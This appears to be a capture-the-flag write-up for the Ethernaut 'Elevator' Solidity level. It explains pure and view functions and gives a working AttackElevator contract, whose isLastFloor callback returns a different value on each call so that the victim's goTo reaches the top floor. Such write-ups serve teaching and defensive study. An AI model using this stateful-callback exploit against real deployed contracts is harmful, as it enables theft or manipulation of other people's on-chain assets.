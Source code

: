 # Day 11 - Elevator

## Pure & View functions

- **pure:** promises functions that will neither read from nor modify the state. Note: Pure replaces constant in more recent compilers

- **view:** promises functions that will only read, but not modify the state

![pure_vs_view](./images/pure-and-view.jpeg)

## Solution

Since `building.isLastFloor()` is not a view function, you could implement it in such a way where it returns a different value everytime it is called, even if it is called in the same function. Moreover, even if it were to be changed to a view function, you could also still attack it.

Note: You don't have to inherit an interface for the sake of doing it. It helps with the abstract constract checks when the contract is being compiled. As you can see in the implementation below, just needed to implement isLastFloor() because it still gets encoded into a hexidecimal function signature and as long as this particular signature exists in the contract, it will be called with the specified params.

```js
pragma solidity ^0.6.0;

contract AttackElevator  {
    bool public flag;

    // implement building.isLastFloor
    function isLastFloor(uint) public returns(bool) {
        flag = !flag;
        return !flag;
    }

    function forceTopFloor(address _victim) public {
        bytes memory payload = abi.encodeWithSignature("goTo(uint256)", 1);
        (bool success,  ) = _victim.call(payload);
        require(success, "goTo falied!");
    }

}
```
